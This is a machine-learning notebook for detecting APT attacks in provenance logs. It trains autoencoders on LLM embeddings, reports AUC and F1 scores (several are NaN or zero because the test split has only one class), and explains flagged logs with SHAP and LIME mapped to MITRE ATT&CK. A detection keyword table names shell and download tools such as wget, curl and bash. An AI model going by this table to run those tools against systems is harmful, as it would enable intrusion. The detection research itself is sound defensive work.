    -> Training GMVAE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Attention AE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(


Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training LSTMAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(


Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Robust... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Contractive... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)

Processing: THEIA - ProcessAll_qwen2_7b_bnb4bit
  Samples: 223415 Train | 55954 Test
    -> Training Baseline... Done. AUC: 0.9984 | nDCG: 0.8002 (DCG: 16.7552, IDCG: 20.9387)
    -> Training Sparse... Done. AUC: 0.9963 | nDCG: 0.8145 (DCG: 17.0549, IDCG: 20.9387)
    -> Training Deep SVDD... Done. AUC: 0.5 | nDCG: 0.338 (DCG: 7.0765, IDCG: 20.9387)
    -> Training DAE... Done. AUC: 0.9986 | nDCG: 0.7871 (DCG: 16.4807, IDCG: 20.9387)
    -> Training VAE... Done. AUC: 0.9972 | nDCG: 0.8194 (DCG: 17.1572, IDCG: 20.9387)
    -> Training Beta-VAE... Done. AUC: 0.9984 | nDCG: 0.7963 (DCG: 16.6725, IDCG: 20.9387)
    -> Training GMVAE... Done. AUC: 0.9985 | nDCG: 0.8044 (DCG: 16.8427, IDCG: 20.9387)
    -> Training Attention AE... Done. AUC: 0.1012 | nDCG: 0.306 (DCG: 6.4072, IDCG: 20.9387)

In [1]:
import os
import pickle
import time
import numpy as np
import pandas as pd
import torch
import torch.nn as nn
from torch.utils.data import DataLoader, TensorDataset
from sklearn.metrics import (
    roc_auc_score, 
    average_precision_score, 
    precision_recall_curve,
    precision_score, 
    recall_score, 
    f1_score, 
    accuracy_score
)

# ==========================================
# 1. CONFIGURATION
# ==========================================
# Configured to match your exact directory names
EMBEDDING_NAME = "qwen2_hf" 

BASE_DIR = f"final_train_test_split_{EMBEDDING_NAME}"
MODEL_SAVE_DIR = f"saved_weights_{EMBEDDING_NAME}"
RESULTS_FILE = f"NEW_comprehensive_metrics_{EMBEDDING_NAME}.csv"
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# [CRITICAL UPDATE] Alibaba-NLP/gte-Qwen2-7B-instruct uses 3584 dimensions
INPUT_DIM = 3584 

print(f"Running INFERENCE ONLY for {EMBEDDING_NAME.upper()} on Device: {DEVICE.upper()}")
print("-" * 60)

# ==========================================
# 2. MODEL ARCHITECTURES (Must match exactly)
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x):
        return self.decoder(self.encoder(x))

class DeepSVDDNet(nn.Module):
    def __init__(self, input_dim):
        super(DeepSVDDNet, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 128))
    def forward(self, x):
        return self.encoder(x)

class VAE(nn.Module):
    def __init__(self, input_dim):
        super(VAE, self).__init__()
        self.fc1 = nn.Linear(input_dim, 1024)
        self.fc2_mu = nn.Linear(1024, 256)
        self.fc2_logvar = nn.Linear(1024, 256)
        self.fc3 = nn.Linear(256, 1024)
        self.fc4 = nn.Linear(1024, input_dim)
    def encode(self, x):
        h1 = torch.relu(self.fc1(x))
        return self.fc2_mu(h1), self.fc2_logvar(h1)
    def reparameterize(self, mu, logvar):
        std = torch.exp(0.5 * logvar)
        eps = torch.randn_like(std)
        return mu + eps * std
    def forward(self, x):
        mu, logvar = self.encode(x)
        z = self.reparameterize(mu, logvar)
        h3 = torch.relu(self.fc3(z))
        return self.fc4(h3), mu, logvar

class GMVAE(nn.Module):
    def __init__(self, input_dim, n_components=5):
        super(GMVAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU())
        self.mu, self.logvar, self.pi = nn.Linear(1024, 256), nn.Linear(1024, 256), nn.Linear(1024, n_components)
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x):
        h = self.encoder(x)
        mu, logvar, pi = self.mu(h), self.logvar(h), torch.softmax(self.pi(h), dim=-1)
        std = torch.exp(0.5 * logvar)
        z = mu + torch.randn_like(std) * std
        return self.decoder(z), mu, logvar, pi

class AttentionAE(nn.Module):
    def __init__(self, input_dim):
        super(AttentionAE, self).__init__()
        self.attn = nn.MultiheadAttention(embed_dim=input_dim, num_heads=8, batch_first=True)
        self.encoder = nn.Sequential(nn.Linear(input_dim, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, input_dim))
    def forward(self, x):
        x_seq = x.unsqueeze(1) 
        attn_out, _ = self.attn(x_seq, x_seq, x_seq)
        return self.decoder(self.encoder(attn_out.squeeze(1)))

class LSTMAE(nn.Module):
    def __init__(self, input_dim):
        super(LSTMAE, self).__init__()
        self.encoder = nn.LSTM(input_dim, 256, batch_first=True)
        self.decoder = nn.LSTM(256, input_dim, batch_first=True)
    def forward(self, x):
        _, (hidden, _) = self.encoder(x.unsqueeze(1))
        out, _ = self.decoder(hidden[-1].unsqueeze(1))
        return out.squeeze(1)


# ==========================================
# 3. FAST EVALUATION FUNCTION
# ==========================================
def evaluate_model(model_name, X_test, y_test, performer, context):
    
    # 1. Initialize empty model
    if model_name in ['Baseline', 'Sparse', 'DAE', 'Robust', 'Contractive']:
        model = VanillaAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Deep SVDD':
        model = DeepSVDDNet(INPUT_DIM).to(DEVICE)
        center = torch.zeros(128, device=DEVICE) 
    elif model_name in ['VAE', 'Beta-VAE']:
        model = VAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'GMVAE':
        model = GMVAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Attention AE':
        model = AttentionAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'LSTMAE':
        model = LSTMAE(INPUT_DIM).to(DEVICE)

    # 2. DYNAMIC WEIGHT FINDER (Bridging the qwen2_hf and qwen2_7b_bnb4bit gap)
    mod_name_clean = model_name.replace(' ', '')
    
    # Safely removes the dataset extension to isolate the core context (e.g. "ProcessEvent")
    base_context = context.replace(f'_{EMBEDDING_NAME}', '') 
    
    matched_weight_file = None
    if os.path.exists(MODEL_SAVE_DIR):
        for f in os.listdir(MODEL_SAVE_DIR):
            # Explicitly checks for "qwen2_7b_bnb4bit" which is how your weights were saved
            if (performer in f and 
                mod_name_clean in f and 
                base_context in f and 
                "qwen2_7b_bnb4bit" in f and 
                f.endswith('.pth')):
                matched_weight_file = f
                break
    
    if not matched_weight_file:
        return None # Skip if weights don't exist
        
    weight_path = os.path.join(MODEL_SAVE_DIR, matched_weight_file)
    model.load_state_dict(torch.load(weight_path, map_location=DEVICE))
    model.eval()

    tensor_test = torch.FloatTensor(X_test).to(DEVICE)

    start_time = time.time()

    # 3. Do a single Forward Pass (Inference)
    with torch.no_grad():
        if model_name == 'Deep SVDD':
            z = model(tensor_test)
            errors = torch.sum((z - center) ** 2, dim=1).cpu().numpy()
        elif model_name in ['VAE', 'Beta-VAE']:
            recon, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'GMVAE':
            recon, _, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'Robust':
            recon = model(tensor_test)
            errors = torch.mean(torch.abs(tensor_test - recon), dim=1).cpu().numpy()
        else:
            recon = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()

    # 4. Calculate All Metrics
    try:
        auc = roc_auc_score(y_test, errors)
        pr_auc = average_precision_score(y_test, errors)
        
        # Max F1 Thresholding
        precisions, recalls, thresholds = precision_recall_curve(y_test, errors)
        f1_scores = np.divide(2 * precisions * recalls, precisions + recalls, out=np.zeros_like(precisions), where=(precisions + recalls) != 0)
        best_idx = np.argmax(f1_scores)
        best_threshold = thresholds[best_idx] if best_idx < len(thresholds) else thresholds[-1]
        
        y_pred = (errors >= best_threshold).astype(int)
        
        precision = precision_score(y_test, y_pred, zero_division=0)
        recall = recall_score(y_test, y_pred, zero_division=0)
        f1 = f1_score(y_test, y_pred, zero_division=0)
        accuracy = accuracy_score(y_test, y_pred)
        
    except Exception as e:
        auc, pr_auc, precision, recall, f1, accuracy = 0.0, 0.0, 0.0, 0.0, 0.0, 0.0

    eval_time = time.time() - start_time

    return {
        "Performer": performer,
        "Context": context,
        "Model": model_name,
        "AUC-ROC": round(auc, 4),
        "PR-AUC": round(pr_auc, 4),
        "Precision": round(precision, 4),
        "Recall": round(recall, 4),
        "F1-Score": round(f1, 4),
        "Accuracy": round(accuracy, 4),
        "Inference Time(s)": round(eval_time, 4)
    }

# ==========================================
# 4. EXECUTION
# ==========================================
all_results = []
models_to_run = [
    'Baseline', 'Sparse', 'Deep SVDD', 'DAE', 'VAE', 'Beta-VAE', 
    'GMVAE', 'Attention AE', 'LSTMAE', 'Robust', 'Contractive'
]

if not os.path.exists(BASE_DIR):
    print(f"[!] Error: {BASE_DIR} missing.")
else:
    performers = [p for p in os.listdir(BASE_DIR) if os.path.isdir(os.path.join(BASE_DIR, p)) and not p.startswith('.')]
    
    for performer in performers:
        test_dir = os.path.join(BASE_DIR, performer, "test")
        if not os.path.exists(test_dir): continue
            
        files = [f for f in os.listdir(test_dir) if f.endswith('.pkl')]
        
        for file in files:
            context = file.replace('.pkl', '')
            print(f"\nEvaluating: {performer.upper()} - {context}")
            
            with open(os.path.join(test_dir, file), 'rb') as f:
                pkg = pickle.load(f)
                X_test, y_test = pkg['X'], pkg['y']

            for m_name in models_to_run:
                res = evaluate_model(m_name, X_test, y_test, performer, context)
                if res is None:
                    print(f"    [!] Skipping {m_name}... Weights not found in {MODEL_SAVE_DIR}.")
                else:
                    all_results.append(res)
                    print(f"    -> {m_name} Done! F1: {res['F1-Score']} | PR-AUC: {res['PR-AUC']}")

if all_results:
    df_res = pd.DataFrame(all_results)
    df_res.to_csv(RESULTS_FILE, index=False)
    print("\n" + "="*60)
    print(f"SUCCESS! Extracted all new metrics without retraining.")
    print(f"Saved to {RESULTS_FILE}")
    print("="*60)

Running INFERENCE ONLY for QWEN2_HF on Device: CUDA
------------------------------------------------------------

Evaluating: 5DIR - ProcessAll_qwen2_7b_bnb4bit
    -> Baseline Done! F1: 0.1481 | PR-AUC: 0.0536
    -> Sparse Done! F1: 0.125 | PR-AUC: 0.0585
    -> Deep SVDD Done! F1: 0.3333 | PR-AUC: 0.1328
    -> DAE Done! F1: 0.1818 | PR-AUC: 0.1108
    -> VAE Done! F1: 0.1538 | PR-AUC: 0.0749
    -> Beta-VAE Done! F1: 0.1905 | PR-AUC: 0.0891
    -> GMVAE Done! F1: 0.1333 | PR-AUC: 0.0682
    -> Attention AE Done! F1: 0.093 | PR-AUC: 0.0211
    -> LSTMAE Done! F1: 0.093 | PR-AUC: 0.0191
    -> Robust Done! F1: 0.129 | PR-AUC: 0.0482
    -> Contractive Done! F1: 0.4615 | PR-AUC: 0.3189

Evaluating: 5DIR - ProcessEvent_qwen2_7b_bnb4bit
    -> Baseline Done! F1: 0.06 | PR-AUC: 0.0206
    -> Sparse Done! F1: 0.0602 | PR-AUC: 0.0191
    -> Deep SVDD Done! F1: 0.008 | PR-AUC: 0.004
    -> DAE Done! F1: 0.0594 | PR-AUC: 0.0204
    -> VAE Done! F1: 0.0457 | PR-AUC: 0.0164
    -> Beta-VAE Don

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

    -> Baseline Done! F1: 0.0 | PR-AUC: 0.0
    -> Sparse Done! F1: 0.0 | PR-AUC: 0.0
    -> Deep SVDD Done! F1: 0.0 | PR-AUC: 0.0
    -> DAE Done! F1: 0.0 | PR-AUC: 0.0


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

    -> VAE Done! F1: 0.0 | PR-AUC: 0.0
    -> Beta-VAE Done! F1: 0.0 | PR-AUC: 0.0
    -> GMVAE Done! F1: 0.0 | PR-AUC: 0.0


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


    -> Attention AE Done! F1: 0.0 | PR-AUC: 0.0


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

    -> LSTMAE Done! F1: 0.0 | PR-AUC: 0.0
    -> Robust Done! F1: 0.0 | PR-AUC: 0.0
    -> Contractive Done! F1: 0.0 | PR-AUC: 0.0

Evaluating: THEIA - ProcessAll_qwen2_7b_bnb4bit
    -> Baseline Done! F1: 0.7639 | PR-AUC: 0.6047
    -> Sparse Done! F1: 0.7397 | PR-AUC: 0.6118
    -> Deep SVDD Done! F1: 0.0036 | PR-AUC: 0.0018
    -> DAE Done! F1: 0.6579 | PR-AUC: 0.5437
    -> VAE Done! F1: 0.6789 | PR-AUC: 0.5537
    -> Beta-VAE Done! F1: 0.6816 | PR-AUC: 0.5516
    -> GMVAE Done! F1: 0.7182 | PR-AUC: 0.5741
    -> Attention AE Done! F1: 0.0036 | PR-AUC: 0.001
    -> LSTMAE Done! F1: 0.0036 | PR-AUC: 0.001
    [!] Skipping Robust... Weights not found in saved_weights_qwen2_hf.
    [!] Skipping Contractive... Weights not found in saved_weights_qwen2_hf.

Evaluating: THEIA - ProcessEvent_qwen2_7b_bnb4bit
    -> Baseline Done! F1: 0.7549 | PR-AUC: 0.6074
    -> Sparse Done! F1: 0.631 | PR-AUC: 0.4628
    -> Deep SVDD Done! F1: 0.0037 | PR-AUC: 0.0018
    -> DAE Done! F1: 0.7383 | PR-AUC

#### XAI Integration and MITRE ATT&CK mapping 

In [1]:
import os
import torch
import numpy as np
import shap
import pandas as pd
from transformers import AutoTokenizer, AutoModel, BitsAndBytesConfig
import transformers.modeling_utils
import torch.nn as nn
import pickle
import requests
from lime.lime_text import LimeTextExplainer

# ==========================================
# 0. THE 4-BIT ACCELERATE HOTFIX
# ==========================================
if not hasattr(transformers.modeling_utils.PreTrainedModel, "_patched_to_applied"):
    _orig_to = transformers.modeling_utils.PreTrainedModel.to
    def _patched_to(self, *args, **kwargs):
        try:
            return _orig_to(self, *args, **kwargs)
        except ValueError as e:
            if "is not supported for `4-bit`" in str(e):
                return self 
            raise e
    transformers.modeling_utils.PreTrainedModel.to = _patched_to
    transformers.modeling_utils.PreTrainedModel._patched_to_applied = True

# ==========================================
# 1. SETUP & CONFIGURATION
# ==========================================
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# [UNIVERSAL EMBEDDER] - Works for both Qwen2 and Mistral 7B models
EMBEDDER_NAME = "Alibaba-NLP/gte-Qwen2-7B-instruct" 
INPUT_DIM = 3584  # Use 3584 for Qwen2, or 4096 for Mistral

TARGET_PERFORMER = 'theia'       
TARGET_CONTEXT = 'ProcessAll'    
TARGET_AE_MODEL = 'Baseline'      

USE_LLM_MAPPING = True

# ==========================================
# 2. EXTENDED MITRE ATT&CK MAPPING
# ==========================================
MITRE_MAPPING = {
    "/bin/bash": "T1059.004 - Command and Scripting Interpreter: Unix Shell",
    "powershell": "T1059.001 - Command and Scripting Interpreter: PowerShell",
    "cmd.exe": "T1059.003 - Command and Scripting Interpreter: Windows Command Shell",
    "whoami": "T1033 - System Owner/User Discovery",
    "chmod": "T1222.002 - File and Directory Permissions Modification: Linux",
    "/usr/bin/wget": "T1105 - Ingress Tool Transfer",
    "curl": "T1105 - Ingress Tool Transfer",
    "ssh": "T1021.004 - Remote Services: SSH",
    "event fork": "T1055 - Process Injection / Execution",
    "event execve": "T1059 - Command and Scripting Interpreter",
    "event clone": "T1055 - Process Injection / Execution",
    "event ptrace": "T1055 - Process Injection",
    "network 10.": "T1090 - Proxy / Internal Network Communication",
    "network 80": "T1071.001 - Application Layer Protocol: Web Protocols",
    "executable": "T1059 - Command and Scripting Interpreter / Execution",
    "nginx": "T1505.003 - Server Software Component: Web Shell"
}

# ==========================================
# 3. AUTOENCODER DEFINITION
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

# ==========================================
# 4. LOCAL LLaMA 3 OLLAMA API FUNCTION
# ==========================================
def get_mitre_from_llm(raw_log, suspicious_word):
    prompt = f"""You are an expert cybersecurity threat hunter. 
An anomaly detection system flagged this system log as a potential APT attack: '{raw_log}'
A mathematical explainer identified the token '{suspicious_word}' as the primary driver of this anomaly.
Based on this token and the context of the log, identify the single most likely MITRE ATT&CK Tactic and Technique ID. 
Format your response exactly like this: [Technique ID] - [Technique Name]. Do not include any other text."""
    
    try:
        url = "http://localhost:11434/api/generate"
        payload = {"model": "llama3", "prompt": prompt, "stream": False, "temperature": 0.1}
        response = requests.post(url, json=payload, timeout=10)
        if response.status_code == 200:
            return response.json().get("response", "").strip()
        return f"[Error] Local API returned status {response.status_code}"
    except Exception as e:
        return f"[Error] Exception occurred: {str(e)}"

# Load the raw sentences
print("Loading all_data_with_sentences.pkl...")
try:
    with open("all_data_with_sentences.pkl", "rb") as f:
        all_data = pickle.load(f)
    print("✓ Data loaded successfully!")
except FileNotFoundError:
    print("[!] all_data_with_sentences.pkl not found.")

# ==========================================
# 5. THE END-TO-END PIPELINE WRAPPER 
# ==========================================
class APT_Explainer:
    def __init__(self, embedder_name, ae_model, device):
        self.device = device
        print(f"Loading {embedder_name} with 4-bit Quantization...")
        
        self.tokenizer = AutoTokenizer.from_pretrained(embedder_name, trust_remote_code=True)
        
        self.tokenizer.padding_side = 'left'
        if self.tokenizer.pad_token is None:
            self.tokenizer.pad_token = self.tokenizer.eos_token 

        # [OOM FIX]: Forces the 7B model to 4.5GB VRAM footprint
        bnb_config = BitsAndBytesConfig(
            load_in_4bit=True,
            bnb_4bit_compute_dtype=torch.float16,
            bnb_4bit_use_double_quant=True
        )

        self.embedder = AutoModel.from_pretrained(
            embedder_name, 
            trust_remote_code=True,
            quantization_config=bnb_config,
            device_map={"": self.device} 
        )
        
        # [UNIVERSAL RoPE TENSOR FIX]
        # Specifically hunt down the 'rotary_emb' math components that Hugging Face
        # leaves stranded on the CPU, and force them to the GPU.
        for module in self.embedder.modules():
            if hasattr(module, 'rotary_emb'):
                module.rotary_emb.to(self.device)
            if hasattr(module, 'inv_freq'):
                module.inv_freq = module.inv_freq.to(self.device)
                
        # Catch any other stranded parameters/buffers
        for param in self.embedder.parameters():
            if param.device.type == 'cpu':
                param.data = param.data.to(self.device)
        for buffer in self.embedder.buffers():
            if buffer.device.type == 'cpu':
                buffer.data = buffer.data.to(self.device)
                
        self.embedder.eval()
        
        self.ae_model = ae_model.to(self.device)
        self.ae_model.eval()

    def predict_anomaly_score(self, text_list):
        if isinstance(text_list, np.ndarray):
            text_list = text_list.tolist()
            
        text_list = [str(t) if len(str(t).strip()) > 0 else "[PAD]" for t in text_list]

        formatted_texts = [f"{text}{self.tokenizer.eos_token}" for text in text_list]

        batch_size = 2 
        all_errors = []
        
        ac_device = 'cuda' if 'cuda' in self.device else 'cpu'
        
        for i in range(0, len(formatted_texts), batch_size):
            batch_texts = formatted_texts[i:i+batch_size]
            
            inputs = self.tokenizer(
                batch_texts, 
                padding=True, 
                truncation=True, 
                max_length=128, 
                return_tensors="pt"
            ).to(self.device)

            if "token_type_ids" in inputs:
                del inputs["token_type_ids"]

            with torch.amp.autocast(ac_device):
                with torch.inference_mode():
                    outputs = self.embedder(**inputs)
                    
                    # Extract the last token
                    embeddings = outputs.last_hidden_state[:, -1, :] 
                    embeddings = torch.nn.functional.normalize(embeddings, p=2, dim=1)
                    
                    embeddings = embeddings.to(torch.float32)
                    
                    reconstructed = self.ae_model(embeddings)
                    errors = torch.mean((embeddings - reconstructed) ** 2, dim=1)
                    all_errors.extend(errors.cpu().numpy())
                
        return np.array(all_errors)

# ==========================================
# 6. INITIALIZE MODELS & LOAD WEIGHTS
# ==========================================
print("-" * 60)
print("INITIALIZING FORENSICS PIPELINE (SHAP + LIME + LLaMA 3)")
print("-" * 60)

ae_model = VanillaAE(INPUT_DIM)

# Auto-detect which weights to load based on the embedder you selected!
if "qwen" in EMBEDDER_NAME.lower():
    weight_filename = f"{TARGET_PERFORMER}_{TARGET_CONTEXT}_qwen2_7b_bnb4bit_{TARGET_AE_MODEL}.pth"
    weight_path = os.path.join("saved_weights_qwen2_hf", weight_filename)
else:
    weight_filename = f"{TARGET_PERFORMER}_{TARGET_CONTEXT}_{TARGET_AE_MODEL}.pth"
    weight_path = os.path.join("saved_weights_e5_mistral", weight_filename)

if not os.path.exists(weight_path):
    print(f"[!] CRITICAL ERROR: Could not find weights at {weight_path}")
else:
    state_dict = torch.load(weight_path, map_location='cpu')
    ae_model.load_state_dict(state_dict)
    ae_model = ae_model.to(DEVICE)
    print(f"✓ Loaded weights safely: {weight_path}")

    pipeline = APT_Explainer(EMBEDDER_NAME, ae_model, DEVICE)
    shap_explainer = shap.Explainer(pipeline.predict_anomaly_score, pipeline.tokenizer)
    lime_explainer = LimeTextExplainer(class_names=['Normal', 'Anomaly'])

    def lime_predict_wrapper(text_list):
        errors = pipeline.predict_anomaly_score(text_list)
        probs = 1 / (1 + np.exp(-errors))
        return np.vstack((1 - probs, probs)).T

    # ==========================================
    # 7. EXPLAIN THE ANOMALY
    # ==========================================
    try:
        df = all_data[TARGET_PERFORMER][TARGET_CONTEXT]
        anomalies_df = df[df['label'] == 1]
        
        if anomalies_df.empty:
            print(f"[!] No anomalies found.")
        else:
            raw_apt_log = [anomalies_df['sentence'].iloc[0]]
            print(f"\nAnalyzing True Positive Anomaly:\n>>> '{raw_apt_log[0]}'")
            
            # ==========================================
            # 8. RUN LIME
            # ==========================================
            print("\n" + "="*80)
            print("LIME EXPLAINABILITY & LLaMA 3 MITRE MAPPING")
            print("="*80)
            
            print("Calculating LIME perturbations...")
            for text in raw_apt_log:
                lime_exp = lime_explainer.explain_instance(text, lime_predict_wrapper, num_features=5)
                
                print("Top LIME Anomaly Drivers:")
                for word, weight in lime_exp.as_list():
                    clean_word = word.strip().lower()
                    if weight > 0 and len(clean_word) > 1:
                        print(f" -> '{clean_word}' (LIME Weight: +{weight:.4f})")
                        mapped = False
                        if USE_LLM_MAPPING:
                            mitre_technique = get_mitre_from_llm(text, clean_word)
                            if "[Error]" not in mitre_technique:
                                print(f"    [!] LLaMA-3 MITRE MAPPING: {mitre_technique}")
                                mapped = True

                        if not mapped:
                            for key, mitre_technique in MITRE_MAPPING.items():
                                if key in clean_word or clean_word in key:
                                    print(f"    [!] STATIC MAPPING: {mitre_technique}")
                                    mapped = True
                        if not mapped:
                            print("    [i] No MITRE mapping found.")

            # ==========================================
            # 9. RUN SHAP 
            # ==========================================
            print("\nCalculating SHAP values (Optimized speed...)")
            shap_values = shap_explainer(raw_apt_log, max_evals=100)
            
            print("\n" + "="*80)
            print("SHAP EXPLAINABILITY & LLaMA 3 MITRE MAPPING")
            print("="*80)

            for i, text in enumerate(raw_apt_log):
                words = shap_values.data[i]
                impact_scores = shap_values.values[i]
                word_impacts = sorted(zip(words, impact_scores), key=lambda x: x[1], reverse=True)
                
                print("Top SHAP Anomaly Drivers:")
                for word, score in word_impacts[:5]: 
                    clean_word = word.strip().lower()
                    if score > 0 and len(clean_word) > 1:
                        print(f" -> '{clean_word}' (Anomaly Impact: +{score:.4f})")
                        mapped = False
                        if USE_LLM_MAPPING:
                            mitre_technique = get_mitre_from_llm(raw_apt_log[0], clean_word)
                            if "[Error]" not in mitre_technique:
                                print(f"    [!] LLaMA-3 MITRE MAPPING: {mitre_technique}")
                                mapped = True

                        if not mapped:
                            for key, mitre_technique in MITRE_MAPPING.items():
                                if key in clean_word or clean_word in key:
                                    print(f"    [!] STATIC MAPPING: {mitre_technique}")
                                    mapped = True
                        if not mapped:
                            print("    [i] No MITRE mapping found.")

    except NameError:
        print("[!] The 'all_data' variable is not loaded.")

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\tqdm\auto.py:21: TqdmWarning: IProgress not found. Please update jupyter and ipywidgets. See https://ipywidgets.readthedocs.io/en/stable/user_install.html
  from .autonotebook import tqdm as notebook_tqdm


Loading all_data_with_sentences.pkl...
✓ Data loaded successfully!
------------------------------------------------------------
INITIALIZING FORENSICS PIPELINE (SHAP + LIME + LLaMA 3)
------------------------------------------------------------
✓ Loaded weights safely: saved_weights_qwen2_hf\theia_ProcessAll_qwen2_7b_bnb4bit_Baseline.pth
Loading Alibaba-NLP/gte-Qwen2-7B-instruct with 4-bit Quantization...


